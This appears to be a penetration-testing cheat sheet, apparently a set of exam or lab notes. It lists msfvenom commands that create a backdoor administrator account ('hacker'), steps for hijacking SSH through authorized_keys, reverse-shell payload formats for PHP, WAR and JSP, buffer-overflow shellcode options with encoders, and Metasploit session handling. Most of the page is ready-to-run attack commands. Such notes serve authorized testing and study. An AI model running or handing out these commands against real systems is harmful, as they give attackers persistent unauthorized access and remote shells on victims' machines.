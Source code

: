 - `msfvenom -p windows/[x64/empty]/exec CMD="net user hacker pass123 /add" -f [FORMAT]`
- `msfvenom -p windows/[x64/empty]/exec CMD="net localgroup Administrators hacker /add" -f [FORMAT]`
- `msfvenom -p windows/[x64/empty]/exec CMD="net group [DOMAIN_GROUP] hacker /add" -f [FORMAT]`
- Remote Access → Add `hacker` to RDP / WinRM Groups

### SSH Hijacking

- `ssh-keygen` → Paste your public key in `C:\Users\[USERNAME]\.ssh\authorized_keys`
- `chmod 600 [KALI_PRIVATE_KEY_FILE]`
- `ssh -i [KALI_PRIVATE_KEY_FILE] [USER]@[IP]`

### MSFVenom

- Executable Upload
  - `metash()`
  - IIS           → ASP / ASPX
  - CMD        → EXE / DLL / MSI / PS1
  - Link/Macro  → HTA / VBA / VBS
  - PHP         → `-p php/meterpreter/reverse_tcp -f raw`
  - WAR        → `-p java/shell_reverse_tcp -f war`
  - JSP          → `-p java/shell_reverse_tcp -f raw`
- BOF Shellcode
  - `-a [x86/x64] -p [SHELL_TYPE] -f [python/c] -b [BAD_CHARS] -e [32_BIT_ENCODER] -i 3 --smallest` → Place in Exploit
  - Encoders      → `x86/shikata_ga_nai` / `x86/unicode_m`
  - Extra Options  → `BufferRegister=EAX` / `Exitfunc=thread`
  - Auto-Migration
    - Useful when Process Crashes
    - `echo "run post/windows/manage/migrate" > ~/automigrate.rc`
    - In `multi/handler` MSF Panel → `set AutoRunScript multi_console_command -r ~/automigrate.rc`

# Metasploit

## Sessions

Multiple sessions can be handled:

in `msfconsole`:

```bash
sessions			# visualize active session
sessions -i [no.]	# switch session
```

Background the current session with `[CTRL] + [Z]`

The `jobs` command lets you handle active jobs:

- An exploit can be run as a job by typing `exploit -j`
- To list all running jobs  `jobs -l` 

- To kill a specific job  `kill [index no.]` 
- `jobs -K`  to kill all running jobs.
